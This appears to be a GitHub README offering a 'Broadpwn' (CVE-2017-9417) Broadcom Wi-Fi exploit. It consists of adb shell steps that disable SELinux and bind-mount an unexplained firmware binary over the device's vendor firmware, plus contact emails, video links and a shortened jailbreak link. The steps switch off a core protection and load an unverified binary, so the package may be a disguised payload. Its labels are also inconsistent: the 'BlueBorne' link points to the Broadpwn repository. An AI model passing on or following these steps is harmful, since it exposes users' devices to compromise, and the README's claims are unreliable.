 
# Broadpwn
- Join or Ask: Linnebergmai@gmail.com 
- Broadpwn Youtube: https://youtu.be/GTb4Y2Y9shw 
- BlueBorne: https://github.com/mailinneberg/Broadpwn | Youtube https://youtu.be/FJGGMyg0W38
- Yalu Jailbreak iOS 10.3.1 : https://goo.gl/9cSSPU
- Help PR.

Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  #setenforce 0
  
  #cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  #chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  #mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  #start 

  Join to our team for developing new software.

  If you have any questions, feel free to ask for more information: Linnebergmai@gmail.com
 
  Whatch the instruction: https://youtu.be/GTb4Y2Y9shw
